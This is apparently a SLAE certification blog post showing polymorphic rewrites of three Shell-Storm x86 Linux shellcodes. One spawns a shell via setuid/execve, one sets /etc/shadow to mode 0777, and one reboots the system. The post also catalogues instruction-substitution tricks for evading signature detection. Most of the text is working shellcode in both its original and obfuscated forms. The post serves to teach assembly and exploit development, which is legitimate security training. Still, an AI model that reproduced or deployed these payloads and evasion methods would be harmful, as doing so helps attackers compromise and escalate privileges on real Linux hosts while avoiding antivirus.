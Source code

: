 ```yaml
---
title:  "[SLAE 6] Polymorphic Shellcodes"
---
```


![Logo](/assets/images/tux-root.png)

For this assignment I've taken 3 shellcodes from  [Shell-Storm](http://shell-storm.org/) and modified them to avoid detection by pattern matching, thus achieving polymorphism (kind of, more on this later). Some techniques I've used to do this:

* Add garbage/nop-like instructions:

```c
nop

mov al,al  
mov bl,bl  
mov cl,cl  
...  
mov ax,ax  
mov bx,bx  
mov cx,cx  
...  
xchg ax,ax  
xchg bx,bx  
xchg cx,cx  
...  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
```
* Add instructions without effect (e.g.: modify registers that don't affect the execution flow)
* Switch between _`mov`_, _`push`_ + _`pop`_, _`clear`_ + _`add`_:

mov	| push + pop	| clear + add
:---:|:---:|:---:
mov al, 0xb	| push byte 0xb	| xor eax, eax
  -| pop eax	| add al, 0xb

* Switch between _`push`_ and _`mov`_ + _`add`_ + _`push`_:

push	| mov + add + push
:---:|:---:
push 0x23456789	| mov esi, 0x12345678
  - | add esi, 0x11111111
  - | push esi

* Change between _`push`_ and directly accessing the stack:

push	| stack access
:---:|:---:
push 0x64777373	| mov dword [esp-4], 0x64777373
  - | sub esp, 4

## Execve()

First one is a polymorphic version of the execve() of the following shellcode: 
    00000000  31C0              xor eax,eax
    00000002  31DB              xor ebx,ebx
    00000004  31C9              xor ecx,ecx
    00000006  B017              mov al,0x17
    00000008  CD80              int 0x80
    0000000A  31C0              xor eax,eax
    0000000C  50                push eax
    0000000D  686E2F7368        push dword 0x68732f6e
    00000012  682F2F6269        push dword 0x69622f2f
    00000017  89E3              mov ebx,esp
    00000019  8D542408          lea edx,[esp+0x8]
    0000001D  50                push eax
    0000001E  53                push ebx
    0000001F  8D0C24            lea ecx,[esp]
    00000022  B00B              mov al,0xb
    00000024  CD80              int 0x80
    00000026  31C0              xor eax,eax
    00000028  B001              mov al,0x1
    0000002A  CD80              int 0x80
And my changed version : 
    xor eax,eax
    mov ebx, eax            ; xor ebx,ebx
    mov ecx, ebx            ; xor ecx,ecx
    push 0x17               ; mov al,0x17
    pop ax
    xchg ecx, ecx           ; NOP added
    int 0x80                ; sys_setuid()

    xor eax,eax
    push eax
    mov dword [esp-4], 0x68732f6e ; push dword 0x68732f6e
    mov dword [esp-8], 0x69622f2f ; push dword 0x69622f2f
    sub esp, 8             ; increase the stack pointer
    mov ebx,esp
    lea edx,[esp+0x8]
    push eax
    push ebx
    lea ecx,[esp]
    mov al,0xb
    xor esi, esi            ; NOP added
    lea eax, [eax + esi]    ; NOP added
    int 0x80                ; execve()

    xor eax,eax
    mov al,0x1
    int 0x80                ; exit()

I've changed how registers are zeroed and how values were pushed on the stack and added some instructions with no effect. 
Chmod /etc/shadow
 The next shellcode changes the permissions of /etc/shadow file: 
xor    %eax,%eax
push   %eax
pushl  $0x776f6461
pushl  $0x68732f2f
pushl  $0x6374652f
movl   %esp,%esi
push   %eax
pushl  $0x37373730
movl   %esp,%ebp
push   %eax
pushl  $0x646f6d68
pushl  $0x632f6e69
pushl  $0x622f2f2f
mov    %esp,%ebx
pushl  %eax
pushl  %esi
pushl  %ebp
pushl  %ebx
movl   %esp,%ecx
mov    %eax,%edx
mov    $0xb,%al
int    $0x80
And my changed version: 
    xor eax,eax
    push eax
    push dword 0x776f6461
    mov esi, 0x56611d1d         ; push dword 0x68732f2f
    lea edi, [esi]              ; junk
    add esi, 0x12121212
    push esi
    push dword 0x6374652f       ; '/etc/shadow'
    mov esi,esp
    push eax
    push dword 0x37373730       ; 0777
    mov ebp,esp
    push eax
    push dword 0x646f6d68
    mov edi, 0x030f0e09         ; push dword 0x632f6e69       
    add edi, 0x60206060
    push edi
    push word 0x622f            ; /bin/chmod
    mov ebx,esp
    push eax
    push esi
    push ebp
    push ebx
    mov ecx,esp
    mov edx,eax
    xor eax, eax                ; mov al,0xb
    add al, 0xa
    add al, 0x1
    xchg ecx, ecx               ; NOP added
    int 0x80


Reboot
Last one is a reboot shellcode: 
8048054:       31 c0                   xor    %eax,%eax
8048056:       50                      push   %eax
8048057:       68 62 6f 6f 74          push   $0x746f6f62
804805c:       68 6e 2f 72 65          push   $0x65722f6e
8048061:       68 2f 73 62 69          push   $0x6962732f
8048066:       89 e3                   mov    %esp,%ebx
8048068:       50                      push   %eax
8048069:       89 e2                   mov    %esp,%edx
804806b:       53                      push   %ebx
804806c:       89 e1                   mov    %esp,%ecx
804806e:       b0 0b                   mov    $0xb,%al
8048070:       cd 80                   int    $0x80
And my modified version: 
    xor eax,eax
    push eax
    push dword 0x746f6f62
    mov edi, 0x05020f0e      ; push dword 0x65722f6e
    add edi,0x60702060
    push edi
    push dword 0x6962732f    ; /sbin/reboot
    mov ebx,esp
    push eax
    mov edx,esp
    push ebx
    mov ecx,esp
    push 0xa
    pop eax
    add al, 1                ; mov al,0xb
    int 0x80


##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
